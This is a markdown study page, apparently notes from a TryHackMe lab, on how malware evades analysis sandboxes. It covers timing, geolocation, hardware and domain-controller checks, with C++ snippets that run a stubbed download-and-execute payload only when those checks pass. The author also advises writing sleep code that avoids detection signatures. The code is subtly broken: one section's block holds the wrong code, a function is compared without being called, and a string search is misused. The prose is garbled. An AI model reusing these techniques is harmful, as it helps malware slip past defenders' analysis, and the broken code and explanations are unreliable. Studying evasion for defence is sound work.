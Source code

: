 # Sandbox Evasion

## Introduction

Sandboxes allow Malware Analysts to perform Dynamic Analysis that is more representive of the actual execution chain of a piece of malware by creating of safe and containize or virtualisd environment for the malware to operate in to then monitor it. Sandboxs within network meaning that any unsafe or suspicious file run simulatively without causing harm before it is run on a production system. Evasion therefore is imperative for the success of a strain malware as it must preemptively defend against dynamic analysis. 

As with all infinite Malware Dev Vs Analysist esculation of complexity this article will almost certianly become outdated and probably from my limit time to research it is already outdated. The key lesson to take away from any known knowns and general systemic presuppositions about how both parties exist and their objectives is:

**This next statement(s) is just a rough splattering of what I am trying to state here and will be edited to make it less of a ramble or philophical skid mark** - just a note for me and warning to others.
1. Metaness of contexts of how either Dev or Analyst use the knowable finite architecture, code, etc no matter how effective, each party continues to seek and utilise (meta/assumptative)information about the other the evade the other to execute their goals.  

Throughout the article I try to reveal a three step 1. Malware does `X` due to Sandbox have `A` property, Blue team will do `Y` and Malware Dev could then do `Z`. This is just to replicate the esculative effect of adversial relationships with  opposing, but symbiotic objectives. No malware means no  analysis to be done. There will alway be malware therefore there will always be analystist to help defend against it, which means there will always be a esculation of capability.

## Sleeping through Sandboxes

Sandboxes are limited to time constraints to prevent overallocation of network resources. Implementing a sleep timer that waits.

1. Query the system time in a parallel thread.
2. Do compute heavy maths that will take certain amount of time.

**Mitigations** - Sandboxes may alter the system clocks, built-in sleep functions 

**Therefore** - Develop your own unique sleep function code that won't have a signature on.

[evasions.checkpoint.com](https://evasions.checkpoint.com/techniques/timing.html)
[joesecurity](https://www.joesecurity.org/blog/660946897093663167#)

## Geolocation

Sandboxes can be virtualise and therefore be located off-site and hosted by Anti-Virus Providers. If target company is `X` county but Malware is beaconing back from `Y` country, even if company is globally networked it would make little sense to not regionalise Sandboxing to allow more Malware Analysis to occur.

1. Geolocation filter, checks IP address block of target company is the same as located
	1. [ifconfig.me](https://ifconfig.me) - Retrieve current IP
	2. [https://rdap.arin.net/registry/ip/1.1.1.1](https://rdap.arin.net/registry/ip/1.1.1.1) - detirmine the ISP returned in json 

**Mitigations** - No internet for Malware

## Check System information
The system that is used for sandboxing will has characteristics of paid solutions and often reduced compute capacity as it used to quarantine malware for inspection.

**NOT AN EXHAUSTIVE LIST**
-   Storage Medium Serial Number
-   PC Hostname
-   BIOS/UEFI Version/Serial Number
-   Windows Product Key/OS Version
-   Network Adapter Information
-   Virtualization Checks
-   Current Signed in User

## Querying Network Objects
Almost no Malware Sandbox is domain joined for obvious reasons, or maybe static unretrievable dummy domain information 


## Example Code

#### Sleeping Through Sandbox
```cpp


int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 

```


#### Geolocating Filter
```cpp
BOOL checkIP() {   
 // Declare the Website URL that we would like to vicit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 

int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 

```

#### Checking System Memory 
```cpp

#include <iostream>
#include <Windows.h>
using namespace std;
int main() {
// Declare the MEMORYSTATUSEX Struct    
   MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
   statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
   GlobalMemoryStatusEx(&statex);
// Print the physical memory installed on the system    
   cout << "There is " << statex.ullTotalPhys/1024/1024/1024 << "GiB of memory on the system.";
} 

BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

#### Network Querying
```cpp
BOOL isDomainController(){
// Create a long pointer to Wide String for our DC Name to live in
    LPCWSTR dcName;  
// Query the NetGetDCName Win32 API for the Domain Controller Name
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
// Convert the DCName from a Wide String to a String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
// Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.
    if ( dcNewName.find("\\\\"){
          return TRUE;
    } else {
          return FALSE;
    }
} 
		
int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 

```

## References

[THM Sandbox Evasion Room](https://tryhackme.com/room/sandboxevasion)